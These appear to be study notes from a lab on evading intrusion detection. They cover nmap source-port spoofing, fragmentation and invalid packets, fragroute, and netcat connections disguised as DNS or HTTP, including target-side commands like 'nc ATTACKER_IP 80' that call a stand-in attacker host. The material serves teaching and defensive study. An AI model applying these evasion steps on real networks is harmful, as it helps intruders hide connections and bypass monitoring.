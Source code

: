 If you are interested in scanning UDP ports, you can use `nmap -sU -Pn -g 53 -F 10.10.243.169` to make the traffic appear to be exchanged with a DNS server.

	![[Pasted image 20240902034302.png]]


Consider the case where you are using netcat. You can try to camouflage the traffic as if it is some DNS traffic.
- On the attacker machine, if you want to use Ncat to listen on UDP port 53, as a DNS server would, you can use `ncat -ulvnp 53`.
- On the target, you can make it connect to the listening server using `ncat -u ATTACKER_IP 53`.

Alternatively, you can make it appear more like web traffic where clients communicate with an HTTP server.
- On the attacker machine, to get Ncat to listen on TCP port 80, like a benign web server, you can use `ncat -lvnp 80`.
- On the target, connect to the listening server using `nc ATTACKER_IP 80`.
	![[Pasted image 20240902034444.png]]


### Session Splicing (IP Packet Fragmentation)
Another approach possible in IPv4 is IP packet fragmentation, i.e., session splicing. The assumption is that if you break the packet(s) related to an attack into smaller packets, you will avoid matching the IDS signatures. If the IDS is looking for a particular stream of bytes to detect the malicious payload, divide your payload among multiple packets. Unless the IDS reassembles the packets, the rule won’t be triggered.

Nmap offers a few options to fragment packets. You can add:
- `-f` to set the data in the IP packet to 8 bytes.
- `-ff` to limit the data in the IP packet to 16 bytes at most.
- `--mtu SIZE` to provide a custom size for data carried within the IP packet. The size should be a multiple of 8.

Suppose you want to force all your packets to be fragmented into specific sizes. In that case, you should consider using a program such as [Fragroute](https://www.monkey.org/~dugsong/fragroute/). `fragroute` can be set to read a set of rules from a given configuration file and applies them to incoming packets. For simple IP packet fragmentation, it would be enough to use a configuration file with `ip_frag SIZE` to fragment the IP data according to the provided size. The size should be a multiple of 8.

For example, you can create a configuration file `fragroute.conf` with one line, `ip_frag 16`, to fragment packets where IP data fragments don’t exceed 16 bytes. Then you would run the command `fragroute -f fragroute.conf HOST`. The host is the destination to which we would send the fragmented packets it.

### Sending Invalid Packets
Generally speaking, the response of systems to valid packets tends to be predictable. However, it can be unclear how systems would respond to invalid packets. For instance, an IDS/IPS might process an invalid packet, while the target system might ignore it. The exact behavior would require some experimentation or inside knowledge.

Nmap makes it possible to create invalid packets in a variety of ways. In particular, two common options would be to scan the target using packets that have:
- Invalid TCP/UDP checksum
- Invalid TCP flags
